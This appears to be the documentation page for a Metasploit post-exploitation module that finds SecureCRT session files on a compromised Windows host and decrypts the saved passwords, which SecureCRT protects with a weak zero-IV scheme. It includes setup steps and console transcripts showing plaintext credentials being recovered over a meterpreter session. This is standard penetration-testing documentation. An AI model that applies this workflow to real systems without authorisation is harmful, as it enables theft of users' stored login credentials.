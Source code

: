 ## Vulnerable Application

All [SecureCRT](https://www.vandyke.com/cgi-bin/releases.php?product=securecrt) installations are affected, regardless 
of which OS they are installed on, since they all use the same encryption mechanisms described by HyperSine in 
his [GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).
Note that at the moment this module only supports exploiting Windows machines.

### Overview
All versions of SecureCRT have an option to allow users to store an encrypted copy of their session information on the
local computer, allowing them to easily restart a session without having to reenter all the connection details such as
the host, username, and password. These details are stored in a local session file, and SecureCRT will additionally
encrypt the password with AES encryption.

Unfortunately for SecureCRT users, the encryption mechanism used uses a weak IV of all 0's, and the encryption keys 
that are utilized to encrypt the passwords have been publicly reversed and documented by HyperSine in [his GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).

In addition, HyperSine also published a PoC script that allows users to decrypt SecureCRT session files, regardless
of the version of SecureCRT installed. The only limitation is that users must know the SecureCRT configuration password
if one was set at installation. At the time of writing, September 11, 2020, it appears that Vandyke, the creators of 
SecureCRT, have still not changed the implementation details for this session encryption algorithm. 

This module ports the work from HyperSine and implements it in a Metasploit module that allows users to easily retrieve
any SecureCRT session files from a compromised Windows machine and then decrypt the session passwords where its possible
to do so. All session information retrieved will be stored a Metasploit loot file, along with the password if
it can be decrypted.

### Setup Steps

1. Download the latest installer of SecureCRT from https://www.vandyke.com/cgi-bin/releases.php?product=securecrt.
   You will need a valid login, which can be obtained by completing the registration form at
   https://www.vandyke.com/cgi-bin/download_application.php?pid=scrt_x64_873&force=1, after which an 
   email will be sent to you with the valid login details.
2. Follow the installer's prompts to install the software. Select all the default settings.
3. Once everything has been installed, start SecureCRT. A prompt will appear asking if one wants to set a 
   configuration passphrase to encrypt sensitive data such as saved passwords and login actions. Set a 
   passphrase of your choice here, but be sure to remember it.
4. Set up a SSH server on your target. For Windows 10 v1809 and later and 
   Windows Server 2019 and later, this can be done by running the PowerShell
   command `Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`,
   followed by `Start-Service sshd`.

## Verification Steps

  1. Use SecureCRT to login to a SSH server of your choosing. When logging in, 
     remember to select the check boxes to save the username (should be selected 
     by default), as well as the checkbox to save the account password.
  3. Get a `meterpreter` session on the Windows host running SecureCRT.
  4. Do: `run post/windows/gather/credentials/securecrt`
  5. Optional: Run `set PASSPHRASE *SecureCRT configuration passphrase*` if a configuration 
     passphrase was set for SecureCRT and you are aware of what its value is. 
  5. If the session file was saved on the target, the module will print out the details 
     of the host and port that the user connected to, as well as which username the user 
     signed in with and the plaintext version of the password that was used.

## Options

 **PASSPHRASE**

  The configuration password that was set when SecureCRT was installed, if one was supplied.
  Note that if this value is not supplied and SecureCRT was set up to use a configuration password, 
  it will not be possible to decrypt the encrypted SecureCRT passwords that are retrieved.

## Scenarios

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled)
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/securecrt 
msf6 post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch: 
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target 
  system and, if it is, it will try to dump all saved session 
  information from the target. The passwords for these saved sessions 
  will then be decrypted where possible, using the decryption 
  information that HyperSine reverse engineered. Note that whilst 
  SecureCRT has installers for Linux, Mac and Windows, this module 
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf6 post(windows/gather/credentials/securecrt) > set SESSION 1 
SESSION => 1
msf6 post(windows/gather/credentials/securecrt) > set Passphrase whatabadpassword
Passphrase => whatabadpassword
msf6 post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\normal\AppData\Roaming\VanDyke\Config\Sessions
SecureCRT Sessions
==================

Filename           Protocol  Hostname   Port  Username              Password
--------           --------  --------   ----  --------              --------
127.0.0.1 (1).ini  telnet    127.0.0.1  23    RAPID7\Administrator  thePassword123!
127.0.0.1 (2).ini  ssh2      127.0.0.1  22    Administrator         thePassword123!
127.0.0.1 (3).ini  ssh2      127.0.0.1  22    Administrator         
127.0.0.1.ini      telnet    127.0.0.1  23                          

msf6 post(windows/gather/credentials/securecrt) >
```

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled, But No Password Provided)
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/securecrt 
msf6 post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch: 
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target 
  system and, if it is, it will try to dump all saved session 
  information from the target. The passwords for these saved sessions 
  will then be decrypted where possible, using the decryption 
  information that HyperSine reverse engineered. Note that whilst 
  SecureCRT has installers for Linux, Mac and Windows, this module 
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf6 post(windows/gather/credentials/securecrt) > set SESSION 1 
SESSION => 1
msf6 post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\Administrator\AppData\Roaming\VanDyke\Config\Sessions
[-] It seems the user set a configuration password when installing SecureCRT!
[-] If you know the configuration password, please provide it via the PASSPHRASE option and then run the module again.
SecureCRT Sessions
==================

Filename       Hostname   Port  Username              Password
--------       --------   ----  --------              --------
127.0.0.1.ini  127.0.0.1  22    RAPID7\Administrator  

[+] Session info stored in: /home/gwillcox/.msf4/loot/20200911125521_default_172.20.150.24_host.securecrt_s_951139.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/securecrt) >
```